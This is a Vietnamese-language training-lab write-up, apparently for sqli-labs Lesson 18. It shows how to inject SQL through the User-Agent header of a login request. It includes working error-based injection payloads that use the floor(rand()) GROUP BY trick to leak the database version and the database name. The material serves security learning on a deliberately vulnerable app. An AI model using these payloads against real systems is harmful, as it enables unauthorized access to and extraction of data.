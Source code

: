 # Những việc làm được với lesson-18
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-18

![](../images/lesson18/screen_2.png)

Thử đăng nhập sai và đăng nhập với ký tự đặc biệt thì nó cũng không xuất ra lỗi mà chỉ báo là đăng nhập không thành công 

![](../images/lesson18/screen.png)

Còn đây là hình ảnh mà khi tôi đăng nhập đúng với user và password 

1. Thấy header 

thì đây nó xuất hiện `Your User Agent is` của tôi chính là thông tin về hệ điều hành mà tôi đang dùng 

![](../images/lesson18/screen_1.png)

chúng ta xem thông tin ở header thì nó xuất ra đúng thông tin của user-agent. Tôi sẽ thử sửa phần header xem có hữu ích gì không 

![](../images/lesson18/screen_3.png)

Ta thực hiện thao tác để sửa header của method `POST` 

![](../images/lesson18/screen_4.png)

Sau khi gửi method xong thì ta sẽ gửi đi để nhận kết quả 

![](../images/lesson18/screen_5.png)

Sau khi gửi đi xong thì ta thấy `Response` có trả về giá trị của user-agent mà chúng ta đã sửa đổi 

2. Phát hiện ra error-base 
- Tôi đã thử ghi ký tự đặc biệt vào trong đó tôi sửa chỉ để lại giấu phẩy 

![](../images/lesson18/screen_7.png)

và kết quả của nó trả lại là đã có lỗi xảy ra

![](../images/lesson18/screen_6.png)

vậy là ở bài này chúng ta có thể thực hiện được error-base. Vấn đề hiện tại là cấu trúc của bài này là gì. Ta cùng đi tìm cấu trúc của nó. Dựa vào lỗi báo ra ta tìm ra cấu trúc của nó 
```
','192.168.80.1','Dhakkan' or (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y)) -- '
```

![](../images/lesson18/screen_8.png)

![](../images/lesson18/screen_9.png)

Và ta đã có báo lỗi và đẩy ra được thông tin của version 

3. Thông tin của DB hiện tại chứa nó 

```
','192.168.80.1','Dhakkan' or (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y)) -- '
```

![](../images/lesson18/screen_10.png)



